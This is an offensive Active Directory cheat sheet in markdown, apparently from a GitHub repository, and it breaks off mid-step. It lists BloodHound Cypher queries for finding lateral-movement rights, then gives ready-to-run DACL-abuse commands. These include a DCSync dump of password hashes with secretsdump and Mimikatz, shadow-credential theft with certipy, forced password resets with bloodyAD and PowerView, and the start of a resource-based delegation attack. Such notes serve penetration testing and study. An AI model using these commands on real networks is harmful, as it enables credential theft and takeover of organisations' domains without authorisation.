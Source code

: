    ```bash
		- Check **Outbound Object Controls** 
		- Check All "**Shortest Path Queries**" in Analysis 
		- In Cypher &rarr; Query:
			`MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:[PRIVILEGE]*1..]->(c:Computer) RETURN p2`
			for `[PRIVILEGE]` in: 
			- Winrm: `CanPSRemote`
			- MSSql: `SQLAdmin`
			- `CanRDP`
			- `ExecuteDCOM`
			- `AdminTo`
		- Check "CanRDP", "CanPSRemote", "SQLAdmin", "DCOM", "AdminTo" in Edges Section, these users have lateral movement privileges
	- For every interesting control / path you find, click on the edge and follow the exploitation
### Exploit
#### DACL Abuse
Follow Bloodhound, depending on what is written on the edges, the exploits differ.
##### AllExtendedRights / DS-Replication-Get-Changes{-In-Filtered-Set}
DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol` to retrieve NTLM hashes.
- **Domain**
    - From Linux:
	    ```bash
	    secretsdump.py DOMAIN/usr:pwd@ip
	    ```
	    - `-just-dc-user [DOMAIN_BASE]/Administrator` to extract data for a user
    - From Windows (Mimikatz.exe):
      ```cmd
      privilege::debug
		lsadump::dcsync /dc:[DC_FQDN] /domain:[DOMAIN] /user:[DOMAIN_BASE_NAME]\Administrator
      ```

##### GenericAll / GenericWrite
- **Group**
	&rarr; AddMember / AddSelf
- **Accounts**
	- Shadow Hash Steal
	  ```bash
     certipy-ad shadow auto -u [USER] -p [PASS] -account "[VICTIM]" -dc-ip [DC_IP]
	    ```
	- Password Reset
		```bash
		bloodyAD --host [DC_FQDN] --dc-ip [DC_IP] -d [DOMAIN] [AUTH_STRING] set password "[TARGET_USER]" "[PASS]"
		```
	- Password Reset (PowerView)
	  ```powershell
	  $cred = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
	  set-domainuserpassword [TARGET] -accountpassword $cred
		```
- **PC Accounts**
	1. Create a new Computer account `MY_PC` 
		 ```bash
		   addcomputer.py '[DOMAIN]/[USER]:[PASS]'
		   ```
	2. Give **delegation rights** to your machine account, so that your fake machine can impersonate a high-privileged user to the target machine.
		```bash
		rbcd.py '[DOMAIN]/[USER]:[PASS]' -delegate-from '[MY_PC]' -delegate-to '[TARGET_PC]' -action write
		```
	3. Request a service ticket as Administrator
		```bash
   ```
